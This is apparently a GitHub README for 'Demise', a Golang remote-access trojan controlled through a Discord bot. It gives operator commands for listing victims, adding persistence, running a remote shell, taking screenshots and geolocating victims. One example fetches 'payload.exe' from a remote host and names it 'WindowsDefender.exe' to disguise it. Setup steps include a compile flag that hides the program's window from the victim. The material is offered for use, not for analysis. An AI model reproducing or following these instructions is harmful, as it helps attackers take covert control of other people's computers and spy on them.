 # Demise

Demise is Golang malware that uses Discord for communication. 

![image](https://user-images.githubusercontent.com/99378532/184524385-89bda0f6-b46d-4e5e-868f-f044dac0ae1d.png)

# Demo

![image](https://user-images.githubusercontent.com/99378532/184524374-a18668bc-7888-4912-b4be-269bedde7b6e.png)

# Commands

show victims connected
$victims

extract a zip file
$unzip <username> <.zip file on drive> <directory to extract in>
Example:
$unzip DESKTOP-2HJUUK6\Tod main.zip C:\msys64\home\Tod\projects\go\src\github.com\0xSegFaulted\

run Demise on startup
$startup <username>
Example
$startup DESKTOP-2HJUUK6\Tod

run an executable (some executables require admin)
$run <username> <location of exe>
Example
$run DESKTOP-2HJUUK6\Tod file.exe

download file
$dl <username> <url> <name of file>
Example
$dl DESKTOP-2HJUUK6\Tod http://somesite.com/payload.exe WindowsDefender.exe

run commands
$shell <username> <command> <flags... optional>
Example 
$shell DESKTOP-2HJUUK6\Tod whoami

screenshot desktop
$ss <username>
Example
$ss DESKTOP-2HJUUK6\Tod

get IP
$ip <username>
Example
$ip DESKTOP-2HJUUK6\Tod

kill session
$kill <username>
$kill DESKTOP-2HJUUK6\Tod

geolocate
$geoloc <username>
$geoloc DESKTOP-2HJUUK6\Tod

# HOWTO

1. Download the source code
2. Download golang https://go.dev choose the correct install for your os
3. make a server (this is a discord bot RAT)
4. make a bot. I won't show you how because there are many tutorial on youtube https://www.youtube.com/watch?v=7A-bnPlxj4k&t=20s
5. add the bot to your server and make a new text channel in your server
6. copy your bot's token and the id of the text channel you just created
![image](https://user-images.githubusercontent.com/99378532/192041038-0c5dcd79-a98b-45ea-88fe-800bb28e5fbe.png)
7. put the channel id here at the beginning of the source code 
![image](https://user-images.githubusercontent.com/99378532/192041183-22706c07-32f7-4763-b822-d90cdd3c092b.png)
8. put your bot's token here
9. compile with a command similiar to this one "go build -ldflags="-s -w -H=windowsgui" ." -H=windowsgui will hide the window

if the bot doesn't respond to commands change your intents


